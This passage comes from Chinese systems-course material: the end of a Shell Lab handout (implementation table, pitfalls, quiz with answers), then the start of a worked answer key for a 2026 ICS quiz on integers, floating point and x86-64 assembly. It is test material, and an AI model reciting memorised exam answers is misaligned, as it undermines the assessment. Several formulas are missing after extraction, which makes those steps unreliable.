| 部分 | 做法 | 关键细节 |
|---|---|---|
| eval | switch (tok.builtins) 分派；BUILTIN_NONE 与 BUILTIN_NOHUP 走 run_job | quit 直接 exit(0)；内置命令不 fork |
| 读写作业列表 | 处理程序之外，一律夹在 block_job_signals 与 restore_signals 之间 | 阻塞 SIGCHLD、SIGINT、SIGTSTP；查找与使用在同一个阻塞区 |
| run_job | open_redirects → 阻塞 → Fork → setpgid(pid, pid) → close_redirects → addjob → 后台打印一行 / 前台 wait_fg → 恢复 | 父进程的 setpgid 容忍 EACCES；文件打不开时不 fork |
| run_child | setpgid(0, 0) → SIGINT、SIGTSTP、SIGTTIN、SIGTTOU 改回 SIG_DFL → 恢复阻塞集合 → nohup 时阻塞 SIGHUP → dup2 → execve → 失败则打印并 exit(1) | 被忽略的信号与阻塞集合都会被 execve 保留 |
| wait_fg | 已阻塞 SIGCHLD；while (fgpid(job_list) != 0) sigsuspend(prev); | 条件是“没有前台作业”，ctrl-z 停止时也要返回 |
| bg / fg | 查表 → Kill(-pid, SIGCONT) → bg：BG 并打印“[jid] (pid) 命令行”；fg：FG 并 wait_fg | 参数 %jid 或 pid；bg、fg 不接受负号 |
| kill | 可选 %、可选负号、然后是数字；正数 kill(pid, SIGTERM)，负数 kill(-pid, SIGTERM) | 发 SIGTERM 而不是 SIGKILL；删除作业由 sigchld_handler 完成 |
| jobs | listjobs(job_list, 有重定向 ? 文件 : STDOUT_FILENO) | 打不开时打印提示语后返回，不退出 shell |
| sigchld_handler | 保存 errno；阻塞全部信号；while 循环 waitpid(-1, &status, WNOHANG | WUNTRACED | WCONTINUED) | 停止：ST 并打印；继续：ST 改 BG；被信号终止：打印并删除；正常退出：只删除 |
| sigint / sigtstp_handler | 有前台作业就 kill(-pid, sig) | 用 if 不用 while；输出只用 sio |
| 提示语 | 与 tshref 逐字相同（表 11、表 20） | %1 要写 %% 或用 %s 输出原始参数 |
| 提交前 | sdriver（含 -i 10）、gcc -Wall -Werror、80 列、函数注释、包装函数替换完 | 构建与测试在同一种架构的机器上 |
9.2 易错点#
表 26 列出的说法都在第三至七部分的实验中被证明是错的，右栏是正确的理解。
表 26 容易错的说法与正确的理解
| 容易错的说法 | 正确的理解 |
|---|---|
| Signal(SIGINT, h) 会发出一个 SIGINT | Signal 只登记处理方式，发信号用 kill（第 1.14 节） |
| kill 发 SIGKILL 更可靠 | 实验要求 SIGTERM；SIGKILL 不能被捕获，myterm1 无法通知 runtrace，trace28 超时 |
| 内置命令也要区分前台、后台 | 内置命令在 shell 进程中直接执行，& 对它没有作用 |
| execve 失败后 return 就行 | 子进程会回到 shell 的循环，出现两个 shell；必须 exit |
| 父进程调用 setpgid(0, 0) 等于替子进程建组 | 两个 0 都指调用者自己，改的是 shell；应写 setpgid(pid, pid) |
| 父进程 setpgid 失败就该退出 | EACCES 表示子进程已经 execve，组已建好，是正常的失败 |
| sigchld_handler 每次只需回收一个子进程 | 同种信号不排队，必须循环到 waitpid 返回 0 或 −1 |
| 转发 ctrl-c 时用 while 直到没有前台作业 | 处理程序阻塞了 SIGCHLD，条件永远不变；用 if |
| 查找作业只读不写，可以放在阻塞区之外 | 查到的指针可能在使用前失效，kill(0, SIGTERM) 会杀死 shell 自己 |
| sleep 轮询只是慢一点 | 信号落在检查与 sleep 之间时多睡一整秒，属于竞争；用 sigsuspend |
| 子进程继承的“忽略”会在 execve 后恢复默认 | 被忽略的信号在 execve 后仍被忽略，SIGTTIN、SIGTTOU 要手动改回 SIG_DFL |
| 用 SIG_IGN 和阻塞 SIGHUP 完全一样 | 程序自己清空阻塞集合后，阻塞失效，忽略仍有效 |
| 实验中没有看到竞争，代码就没有竞争 | fork.c 随机安排先后，sdriver 多跑几遍、或临时加延迟放大窗口，才能看到 |
9.3 自测题#
以下都是单选题，答案和逐项分析在后面。
1．kill 的查找写在阻塞区之外，查到作业 1 之后、发信号之前，作业 1 结束并被 sigchld_handler 回收（槽位被清空）。随后执行 kill(job->pid, SIGTERM)，结果是：
A. 什么也不发生
B. kill 返回 −1，errno 为 ESRCH
C. shell 所在进程组中的所有进程收到 SIGTERM，包括 shell 自己
D. 作业 1 被正常终止
2．父进程调用 setpgid(pid, pid) 返回 −1，errno 为 EACCES，这说明：
A. 子进程已经 execve，并且已经自己建好了组，可以忽略
B. 权限不足，应当打印出错信息并退出
C. 子进程已经被回收
D. 父进程不是进程组组长
3．子进程没有把 SIGTTIN 恢复为 SIG_DFL，在伪终端中前台运行 /bin/cat（读终端）时：
A. cat 被停止，shell 报告 stopped by signal 21
B. cat 正常读到用户输入
C. cat 被终止，shell 报告 terminated by signal 21
D. read 失败，cat 报告 Input/output error 后退出
4．wait_fg 写成 while (fgpid(job_list) != 0) sleep(1);（调用前解除了阻塞），前台运行 /bin/true：
A. 每次都要多等 1 秒
B. 通常不多等，因为 sleep 会被 SIGCHLD 提前打断；只有信号落在检查与 sleep 之间时才多等 1 秒
C. 永远等不到
D. 等待期间 shell 占满 CPU
5．实现 jobs > out.txt，正确的做法是：
A. fork 一个子进程，在子进程中重定向后调用 listjobs
B. open 失败时调用 unix_error
C. 把打开的描述符传给 listjobs，没有重定向时传 STDOUT_FILENO
D. 用 dup2 把 shell 的标准输出改到文件，之后不再改回
6．前台作业被 ctrl-z 停止，tsh 应当打印：
A. Job [1] (pid) stopped by signal 20
B. Job [1] (pid) terminated by signal 20
C. Job [1] (pid) stopped by signal 19
D. 什么也不打印
7．sigchld_handler 中要用 while 循环调用 waitpid，根本原因是：
A. 为了等待前台作业结束
B. WNOHANG 要求必须循环调用
C. 为了先回收前台作业、再回收后台作业
D. 同一种信号不排队，处理程序的一次运行可能对应多个子进程的状态变化
8．在 tsh.c 中声明 void Kill(pid_t pid, int sig);（与 csapp.h 相同）并调用它，然后 make，结果是：
A. 编译错误：implicit declaration of function
B. 链接错误：undefined reference to Kill
C. 能生成 tsh，运行到 Kill 时段错误
D. 能生成 tsh，运行正常
自测题答案#
1．C。槽位被清空后 job->pid 为 0，kill 的 pid 参数为 0 表示“调用者所在进程组的每个进程”，shell 自己也在其中，第 6.3 节的实验中 shell 以退出码 143 结束。A、B、D 都没有考虑到 pid 已经变成 0。
2．A。子进程 execve 之后，父进程不能再改变它的进程组，内核返回 EACCES；子进程在 execve 之前已经 setpgid(0, 0)，所以组已经建好（第 6.4 节）。B 是把正常失败当成错误，第 6.4 节的变体 pgid_fatal 因此退出。C 对应的是 ESRCH，在 fork 之前阻塞 SIGCHLD 时不会发生。D 与 setpgid 的参数无关。
3．D。SIGTTIN 被忽略时，后台进程读终端不会被停止，内核改为让 read 返回 EIO（第 4.4 节）。A 是恢复 SIG_DFL 之后的正确结果。B、C 都不会发生：tsh 运行的作业对终端来说都是后台进程，SIGTTIN 的默认动作是停止而不是终止。
4．B。sleep 被处理了的信号打断时提前返回，第 6.1 节的实验中 10 次 /bin/true 与 sigsuspend 写法耗时相近；在检查与 sleep 之间注入延迟后，耗时从约 0.5 秒增加到约 1.6 秒。A 夸大了问题，C 是 pause 写法的问题，D 是忙等的问题。
5．C。listjobs 的第二个参数就是输出的描述符（第 3.2 节）。A 错，内置命令在 shell 中执行，子进程中的作业列表只是副本（这里虽然只读，也没有必要 fork）。B 错，打不开文件时只打印提示语，不能让 shell 退出。D 错，之后 shell 的所有输出都会写进文件。
6．A。WIFSTOPPED 为真，WSTOPSIG 是 20（SIGTSTP），状态改为 ST，作业不删除（第 5.2 节）。B 混淆了停止与终止。C 中的 19 是 SIGSTOP，ctrl-z 产生的是 SIGTSTP。D 错，停止要打印，只有正常退出不打印。
7．D。几个子进程在处理程序运行期间先后结束，它们的 SIGCHLD 合并成一个待处理信号，处理程序只再运行一次，必须在一次运行中回收所有已经变化的子进程（第 5.3 节）。A 是 wait_fg 的任务。B 错，WNOHANG 只是让 waitpid 不阻塞。C 无此要求。
8．B。原型让编译通过，但 Makefile 只用 tsh.c 和 fork.c 链接，csapp.c 中的定义不参与，链接器找不到 Kill（第 3.4 节）。A 是连原型都没有时的情形（第 0.1 节的实验）。C、D 都到不了运行这一步。
—— Shell Lab 讲义完 ——
计算机系统导论（ICS）
2026 年第 1 次阶段测验 · 试题解析
范围：第 2–8 讲
这份解析怎么用#
这份解析针对 2026 年第 1 次阶段测验，逐题给出答案、推导过程和容易出错的地方。它与《阶段测验冲刺复习讲义》分工不同：冲刺讲义按题型归纳 2025 卷和往年期中题的套路，这份则把今年这一份卷子从头到尾讲透，让你清楚每一道题考的是哪个知识点、标准的思考路径是什么、一般在哪一步出错。题目原文按卷面照录（只改正了明显的排版问题），每题都先给题目和代码，再给答案，然后用连贯的段落把理由讲清楚；凡是有典型错误的地方，另用橙色方框单独指出。
所有数值结论都用 C 程序在 x86-64 Linux 上实际运行核对过；汇编补全题（5.2、5.3、6.2、6.3）把对应的 C 函数用 gcc 13 以 -Og 编译，生成的汇编与卷面给出的代码一致，所以补全的答案就是编译器真实会生成的指令。第 8 讲的不定项选择题（8.1、8.2）逐项给出正误理由，缓冲区攻击题（8.3）结合栈帧布局图与小端字节序完整推演了越界写入的字节级过程。
★ 用这份解析复习的三个建议
先自己重做，再看解析：把第一部分的答案速查表遮住，限时做一遍全卷（全卷约 50 分钟），再对答案。只看解析而不动手，很难发现自己真正的薄弱处。
错题回到讲义：每道题的标题下都写明了考的是哪一讲的哪个知识点；做错的题，回到对应的各讲复习讲义把整节重读一遍，而不只记住这一题的答案。
看清卷面问题：今年卷面有两处小问题（第 4 讲出现两个 4.2，第 7 讲标题分值与小题合计不符），见第一部分，考场上遇到类似情况按小题的实际要求作答即可。
第一部分 答案速查与试卷结构#
全卷答案速查#
下表按卷面顺序列出全部答案和每题的“题眼”——决定这道题能否做对的那一个关键点。复习时可以把“答案”一列盖住，只看题号和题眼回忆做法。第 4 讲卷面有两道题都编号为 4.2，本解析把第二个记作“4.2′（汇编程序）”以示区分。
表 1 2026 第 1 次阶段测验答案速查（第 2–8 讲）
| 题号 | 分值 | 答案 | 题眼 |
|---|---|---|---|
| 2.1 位运算 | 2 | a = 0x06；b = 0x26 | & 掩码保留低 4 位；^ 翻转最高位 |
| 2.2 移位 | 2 | 00101101；11101101 | 逻辑右移补 0，算术右移补符号位 |
| 2.3 整数 | 4 | a = 0；b = 1 | int 与 unsigned 混合运算时按无符号进行 |
| 3.1 IEEE 754 | 4 | E = 2；−7.0 | exp = 129，M = 1.75 |
| 3.2 IEEE 754 | 4 | −∞；NaN | 阶码全 1：小数域为 0 是无穷，否则是 NaN |
| 3.3 舍入规则 | 2 | 10.10；11.01 | 恰好一半向偶数舍入；不到一半直接舍去 |
| 3.4 浮点数格式 | 2 | 0x52 | 10.5 = 1.0101₂×2³，向偶数舍入得 10 |
| 3.5 浮点运算 | 4 | b = 0.0；c = 1.0 | 2²⁴ + 1 恰在中间，舍入为 2²⁴ |
| 4.1 机器指令 | 2 | 4；8 | 指令长度 = 相邻地址之差 |
| 4.2 寻址方式 | 2 | 0x1030 | 位移 0x18 是十六进制 24 |
| 4.2′ 汇编程序 | 4 | C；B | 3x → 12x → 11x |
| 4.3 汇编程序 | 4 | −5；17 | subq S, D 计算 D − S |
| 4.4 汇编程序 | 4 | 11；12 | 11 + 2×4 − 7 = 12 |
| 5.1 条件码 | 2 | ZF = 0；0x2A | test 只设置条件码，不写回 |
| 5.2 条件跳转 | 4 | cmpq %rsi, %rdijle .Ldone | 条件取反后跳过赋值 |
| 5.3 循环结构 | 4 | (b) x & 3；6 | (a) x (c) x >> 2；求 4 进制各位之和 |
| 5.4 跳转表 | 6 | 11；3；0 | ja 是无符号比较，负数走 default |
| 6.1 栈操作 | 4 | 0x2FF8；0x35 | push 先减 8 再写入 |
| 6.2 过程调用 | 4 | movq %rsi, %rdiaddq %rbx, %rax | x 存放在被调用者保存的 %rbx |
| 6.3 过程调用和栈帧 | 8 | leaq 8(%rsp), %rdiaddq 8(%rsp), %raxaddq %rbx, %raxrun(4, 3) = 23 | 传地址用 lea；调用后从内存重新读 local |
| 7.1 数组 | 4 | 0x3024；17 | 行优先存放；row 是指针数组 |
| 7.2 结构体 | 8 | 4；24；0x1038；36 | 按 8 对齐补齐；p[1] 就是 a[2] |
| 8.1 结构与联合 | 3 | A、B、D | struct 对齐占 16B；union 共起点占 8B |
| 8.2 防御技术 | 3 | A、B、D | NX 禁执行不禁写栈；ASLR 不消除越界 |
| 8.3 缓冲区攻击 | 8 | 0x11E8；31；0x401200；不可以 | 距返回地址 32B；\0 盖最低字节；金丝雀只检测 |
试卷结构：与 2025 卷对比#
今年的卷子仍然严格按大班讲授次序分组，每讲一组、组内若干小题，这一点与 2025 卷相同。变化主要在分值分布上：2025 卷明显偏重第 5 讲（控制，28 分）和第 7 讲（数据，20 分），而今年除第 2 讲外每讲都在 14–16 分，分布平均得多。第 3 讲（浮点）从 10 分增加到 16 分，覆盖了编码解码、特殊值、舍入、自定义位宽乘法和浮点运算不满足结合律五个方面；第 4 讲（机器级编程基础）从 6 分增加到 16 分，增加了指令长度、寻址计算和三道“跟踪寄存器与内存”的小程序题。
表 2 2025 卷与 2026 卷各讲分值对比
| 讲次 | 2025 | 2026 | 2026 卷考点与题型 |
|---|---|---|---|
| 第 2 讲 整数 | 12 | 8 | 按位与/异或、逻辑与算术右移、有符号与无符号混合比较（填空） |
| 第 3 讲 浮点 | 10 | 16 | 位模式解码、∞ 与 NaN、向偶数舍入、8 位浮点乘法、大数加小数（填空） |
| 第 4 讲 基础 | 6 | 16 | 指令字节数、D(Rb,Ri,s) 寻址、lea 做乘法（选择）、两段寄存器/内存跟踪（填空） |
| 第 5 讲 控制 | 28 | 16 | test 与 ZF、if 的汇编补全、while 循环逆向、switch 跳转表求值（填空） |
| 第 6 讲 过程 | 16 | 16 | push/pop、被调用者保存寄存器、取地址的局部变量与栈帧（补全整条指令） |
| 第 7 讲 数据 | 20 | 14* | 二维数组与指针数组、结构体对齐与指针运算（填空） |
| 第 8 讲 高级 | 8 | 14 | 结构与联合、防御技术（不定项选择）、缓冲区攻击（填空） |
| 合计 | 100 | 100 | * 第 7 讲标题标“共 14 分”，但卷面小题合计 12 分，见下文 |
题型上有两个值得注意的新变化。第一，出现了选择题：4.2′ 是两道单选题，第 8 讲的 8.1、8.2 是不定项选择题，规则是“全对得 3 分、少选得 1 分、错选或不选得 0 分”，也就是说多选一个错误选项就一分不得，而漏选还能保住 1 分，没有把握的选项宁可不选。第二，汇编补全题要求写出整条指令（5.2 题干明确写了“整条指令写完整”，6.2、6.3 每空 2 分），所以指令后缀、操作数顺序、寄存器名都要写对，不能只写一个操作码。
⚠ 卷面上的两处小问题
第 4 讲有两道题都编号为“4.2”（寻址方式 2 分、汇编程序 4 分），后面接着是 4.3、4.4。这只是编号笔误，不影响作答；本解析把第二个记作 4.2′。
第 7 讲标题写“共 14 分”，但卷面上只有 7.1（4 分）和 7.2（8 分）两题，合计 12 分；按标题算全卷 100 分，按小题算是 98 分。可能是标题笔误，也可能有一道 2 分的小题没有印出来。
5.2 题干说“补全缺失的指令，并计算指定参数下的返回值”，但卷面只有补全指令的两问，没有给出要计算的参数。5.2 题的解析中补充了两组参数的计算。
第二部分 逐题解析#
本部分按卷面顺序逐题讲解。每题先给出题目（代码照录卷面），然后是答案框和讲解。讲解里提到的“第 N 讲讲义”指 ICS0N 复习讲义中的对应小节。
第 2 讲 整数（8 分）#
第 2 讲的三道题都围绕“位模式”与“解释方式”的关系：同样的 8 位或 32 位二进制，用按位运算、移位、有符号或无符号比较去处理，得到的结果不同。做这类题最稳妥的办法是先把数写成二进制，再一步一步操作，不要在十进制里凭直觉推。
2.1 位运算（2 分）#
2.1考虑以下 C 语言代码，求变量 a 和 b 的值，均用十六进制表示。
unsigned char x = 0xA6;
unsigned char a = x & 0x0F;
unsigned char b = x ^ 0x80;答案
(1) a = 0x06 (2) b = 0x26
先把 x 写成二进制：0xA6 = 1010 0110。按位与 & 的作用是“掩码”：与 1 相与的位保持不变，与 0 相与的位被清零。0x0F = 0000 1111 只有低 4 位是 1，所以 x & 0x0F 保留 x 的低 4 位、清掉高 4 位，得到 0000 0110 = 0x06。按位异或 ^ 的作用是“翻转”：与 1 异或的位取反，与 0 异或的位不变。0x80 = 1000 0000 只有最高位是 1，所以 x ^ 0x80 只把 x 的最高位由 1 变成 0，其余不变，得到 0010 0110 = 0x26。
熟练以后可以直接按十六进制数字逐位做，因为每个十六进制数字恰好对应 4 位：0xA6 与 0x0F 相与时，高位数字 A 与 0 相与得 0，低位数字 6 与 F 相与仍是 6；0xA6 与 0x80 异或时，高位数字 A ^ 8 = 1010 ^ 1000 = 0010 = 2，低位数字 6 ^ 0 = 6。三种按位运算的典型用途可以记成一句话：& 用来取出或清零某些位，| 用来把某些位置 1，^ 用来翻转某些位。题中变量都是 unsigned char，运算时虽然会先提升为 int，但结果截断回 8 位后与直接按 8 位计算相同。
2.2 移位（2 分）#
2.2一个 8 位二进制数为 10110100。分别对其执行右移 2 位的操作，移出的位直接丢弃。(1) 采用逻辑右移，结果为____；(2) 采用算术右移，结果为____。均用 8 位二进制表示。
答案
(1) 逻辑右移：00101101 (2) 算术右移：11101101
右移 2 位时，最低的两位 00 被移出丢弃，原来的高 6 位 101101 移到低 6 位，空出来的最高两位要补什么，就是逻辑右移和算术右移唯一的区别。逻辑右移总是补 0，得到 00 101101；算术右移复制原来的最高位（符号位），这里最高位是 1，所以补 11，得到 11 101101。
可以用数值来检验。把 10110100 看作无符号数是 180，逻辑右移 2 位相当于除以 4 取整：180 / 4 = 45 = 00101101。把它看作 8 位补码是 −76，算术右移 2 位相当于 ，而 −19 的 8 位补码正是 11101101（256 − 19 = 237 = 0xED）。在 C 语言里，对无符号数的 >> 一定是逻辑右移；对有符号数，C 标准把它留给实现定义，但几乎所有机器（包括 x86-64 上的 gcc）都用算术右移。
⚠ 算术右移是向下取整，不是向零取整
算术右移 k 位等于除以 后向下取整（向 −∞），而 C 的整数除法是向零取整。−76 恰好能被 4 整除，看不出差别；换成 −77 就不同了：-77 >> 2 是 −20，而 -77 / 4 是 −19。这也是编译器把有符号除法翻译成移位时要先加一个偏置（bias）的原因。
2.3 整数（4 分）#
2.3考虑以下 C 语言代码，假设 int 和 unsigned int 均为 32 位。求 a 和 b 的值（十进制）。
unsigned int count = 3U;
int change = -5;
int a = (change < count);
unsigned int next = count + change;
int b = (next > count);答案
(1) a = 0 (2) b = 1
本题考的是 C 的“混合运算”规则：当 int 和 unsigned int 一起参与运算或比较时，int 会先被转换成 unsigned int。这种转换不改变位模式，只是换一种方式解释这 32 位。change = −5 的补码是 0xFFFFFFFB，按无符号解释是 。所以 change < count 实际比较的是 4294967291 < 3，结果为假，a = 0。
第二行 count + change 同样按无符号进行：。从位级看，这就是 3 + (−5) = −2 的补码 0xFFFFFFFE，加法器对有符号和无符号做的是同一种二进制加法，区别只在于怎么解释结果。next 是 unsigned int，值为 4294967294，比较 next > count 是 4294967294 > 3，成立，b = 1。如果凭直觉按“−5 < 3、3 − 5 = −2 < 3”去做，两问都会答反。
⚠ 有无符号混合时先看类型
只要比较的一边是无符号类型（unsigned 变量、带 U 后缀的常量、sizeof 的结果 size_t），另一边的负数就会变成一个很大的正数。答题时先确定两个操作数的类型，再决定按有符号还是无符号比较。
如果把 count 强制转换成 int，写成 change < (int)count，比较就按有符号进行，结果为 1。
第 3 讲 浮点（16 分）#
第 3 讲的五道题覆盖了 IEEE 754 的完整链条：从位模式解码出数值（3.1）、识别特殊值（3.2）、向偶数舍入（3.3）、在自定义位宽下完成一次运算并重新编码（3.4），以及舍入如何让浮点加法失去结合律（3.5）。核心公式只有一个：规格化数的值为 ，其中 ，。
3.1 IEEE 754 标准（4 分）#
3.1一个 float 类型的数，其 32 位编码用十六进制表示为 0xC0E00000。(1) 按照 v = (−1)^s × M × 2^E，其阶码对应的实际指数 E 为____；(2) 该浮点数的十进制值为____。
答案
(1) E = 2 (2) −7.0
float 的 32 位依次是 1 位符号 s、8 位阶码 exp、23 位小数 frac。把 0xC0E00000 写成二进制并按 1 + 8 + 23 切开：前三个十六进制数字 C、0、E 是 1100 0000 1110，第 1 位是符号 s = 1；接下来 8 位是阶码 1000 0001 = 129；剩下的 110 0000 … 0 是小数域，只有开头两位是 1。
阶码 129 既不是全 0 也不是全 1，所以这是规格化数。float 的偏置 bias = 127，于是 。尾数 M 要加上隐含的 1：。代入公式得 。可以反过来检验：，阶码 2 + 127 = 129，小数域 11 后补 0，符号为负，正好得到 0xC0E00000。
3.2 IEEE 754 标准（4 分）#
3.2以下两个 32 位二进制编码按照 IEEE 754 单精度浮点数格式解释，分别表示什么？(1) 0xFF800000 → ____；(2) 0x7FC00000 → ____。
答案
(1) −∞（负无穷） (2) NaN（非数）
阶码全 1 的编码都是特殊值，再看小数域区分：小数域全 0 表示无穷，小数域不全为 0 表示 NaN。0xFF800000 = 1 1111 1111 000…0，符号为 1、阶码全 1、小数域全 0，是负无穷。0x7FC00000 = 0 1111 1111 100…0，阶码全 1，小数域最高位是 1、不全为 0，是 NaN。小数域最高位为 1 的 NaN 称为 quiet NaN，是运算（如 0.0/0.0）产生的默认 NaN 形式；NaN 的符号位没有数值意义。下表是按阶码分类的完整规则，四种情况要能脱口而出。
表 3 IEEE 754 编码的四种情况（以 float 为例）
| 阶码 exp | 小数域 frac | 类别 | 数值 |
|---|---|---|---|
| 全 0 | 任意 | 非规格化（含 ±0） | |
| 非全 0 且非全 1 | 任意 | 规格化 | |
| 全 1 | 全 0 | 无穷 | ±∞（由符号位决定） |
| 全 1 | 非全 0 | NaN | 不是数 |
3.3 舍入规则（2 分）#
3.3按照 IEEE 754 默认的“向偶数舍入”规则，将以下两个二进制数保留小数点后两位。(1) 10.10100 → ____；(2) 11.01011 → ____。
答案
(1) 10.10 (2) 11.01
保留两位小数，就看从第 3 位小数开始被舍去的那一段，把它与“一半”（即 100…0）比较。(1) 10.10100 被舍去的是 100，首位是 1、后面全是 0，正好是一半，也就是说 10.10100 恰好落在 10.10 和 10.11 的正中间。这时向偶数舍入：选择保留部分末位为 0 的那一个，10.10 的末位是 0，所以结果是 10.10（舍去）。(2) 11.01011 被舍去的是 011，首位是 0，说明不到一半，直接舍去，结果是 11.01。注意被舍去部分只要首位是 0，后面无论有几个 1 都不到一半，不能进位。
把判断规则整理成三种情况：被舍去部分首位为 0，小于一半，舍去；首位为 1 且后面还有 1，大于一半，进位；恰好是 100…0，正好一半，看保留部分的末位，末位为 1 就进位使其变偶，末位为 0 就舍去。下表多给几个例子，可以用来自测。
表 4 向偶数舍入的判断（保留两位小数）
| 原数 | 被舍去部分 | 与一半比较 | 结果 |
|---|---|---|---|
| 10.00011 | 011 | 小于一半 | 10.00 |
| 10.00110 | 110 | 大于一半 | 10.01 |
| 10.10100 | 100 | 恰好一半，末位 0 已是偶数 | 10.10 |
| 10.11100 | 100 | 恰好一半，末位 1 进位 | 11.00 |
| 11.01011 | 011 | 小于一半 | 11.01 |
3.4 浮点数格式（2 分）#
3.4某计算机采用与 IEEE 754 类似的 8 位浮点数格式：最高 1 位为符号位 s，随后 4 位为阶码 exp（偏置值 Bias = 7），最后 3 位为小数域 frac，舍入采用向偶数舍入。现有 ，，执行浮点乘法 a × b，乘积最终的 8 位浮点编码（十六进制）为____。
答案
0x52（即 0 1010 010，表示 10.0）
浮点乘法分三步：尾数相乘、阶数相加、规格化并舍入。先算尾数： 就是 1.5 × 1.75 = 2.625，写成二进制是 ；再把阶数相加，1 + 1 = 2。乘积是 ，尾数大于等于 2，需要规格化：小数点左移一位、阶数加 1，得到 ，数值为 10.5（直接验算 a = 3、b = 3.5，3 × 3.5 = 10.5）。
小数域只有 3 位， 要保留到小数点后第 3 位：保留 1.010，被舍去的是最后一个 1，恰好一半。按向偶数舍入，保留部分末位是 0，已经是偶数，所以舍去，结果为 。也可以从可表示的数来理解：阶数为 3 时，相邻两个可表示数相差 ，10.5 夹在 10（1.010）和 11（1.011）正中间，向偶数舍入取 10。最后编码：s = 0；exp = E + Bias = 3 + 7 = 10 = 1010，介于 0001 和 1110 之间，是合法的规格化数；frac = 010。拼起来是 0 1010 010 = 0101 0010 = 0x52。
⚠ 本题的三个常见错误
忘记规格化，直接用 去编码，阶码会少 1。
把恰好一半当成进位，得到 1.011，编码成 0x53（表示 11）。
编码时忘记加偏置，把阶码写成 3（0011）而不是 3 + 7 = 10（1010）。
3.5 浮点运算（4 分）#
3.5假设 float 使用 IEEE 754 单精度格式，采用默认的向偶数舍入规则，每次浮点运算都按单精度舍入，不采用额外精度，也不改变表达式中的运算顺序。求 b 和 c 的值。
float x = 16777216.0f; // 2^24
float y = 1.0f;
float a = x + y;
float b = (x + y) - x;
float c = (x - x) + y;答案
(1) b = 0.0 (2) c = 1.0（另外 a = 16777216.0，即 a = x）
float 的小数域有 23 位，加上隐含的 1，共有 24 位有效位。对于满足 的数 v，阶数 E = 24，最低有效位的权重是 ，也就是说这一段里相邻的两个 float 相差 2，只能表示偶数。 不能精确表示，它恰好落在 与 的正中间。按向偶数舍入： 的尾数末位是 0， 的尾数末位是 1，所以结果取 ，即 a = x，y 被“吃掉”了。
于是 b = (x + y) − x = = 0.0。而 c = (x − x) + y 先算 x − x = 0（精确），再加 y 得 1.0，每一步都没有舍入误差。数学上 (x + y) − x 和 (x − x) + y 都等于 y，但浮点运算的结果一个是 0、一个是 1，这正说明浮点加法不满足结合律：运算顺序不同，舍入发生的位置就不同。题目特意强调“每次运算都按单精度舍入、不采用额外精度”，是为了排除用 80 位扩展精度保存中间结果的情况（老式 x87 浮点单元会这样做）；在 x86-64 上用 SSE 指令计算 float，本来就满足这一假设。
第 4 讲 机器级编程基础（16 分）#
第 4 讲的五道题考读汇编的基本功：objdump 输出的格式、内存操作数的地址计算、lea 做算术、AT&T 格式下操作数的顺序，以及区分“寄存器里的值”和“内存里的值”。后三道题都是跟踪一小段代码执行后寄存器和内存的变化，最可靠的方法是列一张表，一条指令一行地写下每个寄存器和内存单元的值。
4.1 机器指令（2 分）#
4.1某程序经过编译、汇编和链接后，使用 objdump 反汇编得到以下代码。(1) 地址 0x400503 处的指令，其机器代码占用____字节；(2) 以上三条指令的机器代码共占用____字节。
400500: 48 89 d8 mov %rbx, %rax
400503: 48 83 c0 05 add $5, %rax
400507: c3 ret答案
(1) 4 字节 (2) 8 字节
objdump 每一行的格式是“指令起始地址：机器码字节 汇编指令”。0x400503 处的机器码是 48 83 c0 05，共 4 个字节；也可以用地址差来算：下一条指令从 0x400507 开始，0x400507 − 0x400503 = 4。三条指令分别占 3、4、1 字节，共 8 字节，等于 ret 之后的地址 0x400508 减去起始地址 0x400500。
x86-64 是变长指令集，一条指令可以是 1 到 15 个字节，所以不能假设每条指令一样长。以 add 这条为例：48 是 REX.W 前缀，表示操作数是 64 位；83 是“加一个 8 位立即数（符号扩展到 64 位）”的操作码；c0 是 ModR/M 字节，选定目的操作数是 %rax；05 就是立即数 5。ret 不需要操作数，只有 1 个字节 c3。
4.2 寻址方式（2 分）#
4.2在 x86-64 计算机上，寄存器 %rax = 0x600，%rbx = 0x1000，%rcx = 3。执行 movq 0x18(%rbx,%rcx,8), %rax，该指令访问数据的内存地址为（十六进制）____。
答案
0x1030
内存操作数 D(Rb, Ri, s) 表示的地址是 ，其中比例因子 s 只能是 1、2、4、8。代入本题：Rb = %rbx = 0x1000，Ri = %rcx = 3，s = 8，D = 0x18。，再加上位移 0x18，偏移合计 0x18 + 0x18 = 0x30，地址为 0x1000 + 0x30 = 0x1030。%rax 的初值 0x600 与地址计算无关，只是干扰项；指令执行后 %rax 会被内存中 0x1030 处的 8 字节覆盖，但题目问的是地址，不是读出的值。
⚠ 位移 0x18 是十六进制
最常见的错误是把 0x18 当成十进制的 18：0x1000 + 24 + 18 = 0x1000 + 42 = 0x102A。汇编中带 0x 的位移一律是十六进制，0x18 = 24。最稳妥的做法是全部换成十进制相加（4096 + 24 + 24 = 4144），再换回十六进制（4144 = 0x1030）；或者全部换成十六进制相加（0x18 + 0x18 = 0x30）。
4.2′ 汇编程序（4 分）#
4.2′以下是一段 x86-64 汇编代码，函数参数 x 存放在 %rdi 中，函数返回值存放在 %rax 中。(1) 执行第一条指令 leaq 后，%rax 中的值相当于：A. x B. 2x C. 3x D. 4x；(2) 该函数的返回值相当于以下哪个 C 语言表达式？A. 7*x B. 11*x C. 12*x D. 13*x
calc:
leaq (%rdi,%rdi,2), %rax
salq $2, %rax
subq %rdi, %rax
ret答案
(1) C（3x） (2) B（11*x）
lea 按内存操作数的格式计算一个地址，但并不访问内存，只把算出的地址值写入目的寄存器，所以编译器常用它做“a + b × k”形式的算术。(%rdi,%rdi,2) 表示 ，执行后 %rax = 3x。salq $2, %rax 左移 2 位相当于乘以 4，%rax = 12x。subq %rdi, %rax 计算 %rax − %rdi，%rax = 12x − x = 11x。这是编译器把乘以常数拆成 lea、移位和减法的典型做法，因为这几条指令合起来通常比一条乘法指令更快。
4.3 汇编程序（4 分）#
4.3假设 %rdi 的值为 0x3000，从该地址开始的 8 字节内存数据初始值为 12。执行以下代码后，(1) %rax 中的值为（十进制）____；(2) 地址 0x3000 处的 8 字节内存数据，其值为（十进制）____。
movq (%rdi), %rax
addq $5, (%rdi)
subq (%rdi), %rax答案
(1) %rax = −5 (2) 内存 0x3000 处 = 17
第一条 movq (%rdi), %rax 从地址 0x3000 读出 12 放进 %rax。第二条 addq $5, (%rdi) 的目的操作数是内存，它读出 0x3000 处的 12、加 5、再写回，内存变为 17；这条指令不涉及 %rax，%rax 仍然是第一步复制出来的 12。第三条 subq (%rdi), %rax 在 AT&T 格式下的含义是“目的 = 目的 − 源”，即 %rax = %rax − M[0x3000] = 12 − 17 = −5。
⚠ 两个容易混淆的地方
